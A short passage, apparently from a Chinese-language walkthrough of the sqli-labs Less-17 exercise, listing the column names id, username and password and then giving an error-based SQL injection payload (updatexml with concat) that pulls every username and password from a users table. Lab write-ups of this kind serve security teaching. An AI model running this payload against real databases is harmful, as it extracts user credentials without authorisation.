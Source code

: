 ![Less-17_3](./img/Less-17_3.PNG)



爆破得到的列名是

~~~ tex
id,username,password
~~~



+ 爆破数据

~~~ shell
admin
1' and (updatexml(1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1))#
~~~
